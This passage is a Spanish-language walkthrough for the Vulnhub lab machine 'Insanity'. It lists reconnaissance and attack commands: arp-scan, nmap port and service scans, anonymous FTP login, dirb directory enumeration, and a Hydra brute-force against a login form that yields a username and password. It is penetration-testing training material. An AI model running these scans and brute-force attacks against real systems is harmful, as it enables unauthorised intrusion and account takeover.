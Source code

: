 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=530&height=80&lines=INSANITY_HOSTING"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/insanity-1,536/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177059310-4e781fd1-10e5-4204-a0e4-1cb0101ea678.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/177059371-cdbe2b44-c0bb-47bc-843e-443e7f8e38a6.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/177059471-f34e40d9-8d65-4731-9ea1-15efd130ca17.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio de sesión anónimo.

O.S: Linux (**CentOS**)

URL: `http://192.168.1.10`

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.10
```
Usuario: `anonymous`

Contraseña: `anonymous`

![4](https://user-images.githubusercontent.com/75953873/177059681-c67a449f-966c-4557-857a-fb6b689ee742.png)

- *Paso 5:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10/monitoring -X .php -w /usr/share/wordlists/dirb/common.txt 
```
![5](https://user-images.githubusercontent.com/75953873/177060618-20a3b175-70f1-4446-9a98-06fd3472b895.png)

URL completa: `http://192.168.1.10/monitoring/login.php`

![6](https://user-images.githubusercontent.com/75953873/177060649-2c0299a6-1293-4ff3-bd57-3d7f2c377c33.png)

```
dirb http://192.168.1.10 -N .php,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![7](https://user-images.githubusercontent.com/75953873/177060767-64de6138-1ce3-4e06-a2fe-6d73901a3d29.png)

URL completa: `http://192.168.1.10/news`

![8](https://user-images.githubusercontent.com/75953873/177060834-7c34ccb2-29a1-49ff-bf16-b4bee6137d79.png)

```
dirb http://192.168.1.10/news -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![9](https://user-images.githubusercontent.com/75953873/177060944-32c81f13-e6db-4029-ac2c-f9e2d654ebf1.png)

URL completa: `http://192.168.1.10/news/admin/`

![10](https://user-images.githubusercontent.com/75953873/177060975-9ea24383-8fb2-4b1d-a3d2-b33eef1c75a0.png)

- *Paso 6:* Aplicar fuerza bruta a inicio de sesión con Hydra.

```
hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/monitoring/index.php:username=^USER^&password=^PASS^:Password"
```
![12](https://user-images.githubusercontent.com/75953873/177061649-80af992e-4472-4625-bf57-460e7bd74773.png)

Usuario: `otis`

Contraseña: `123456`
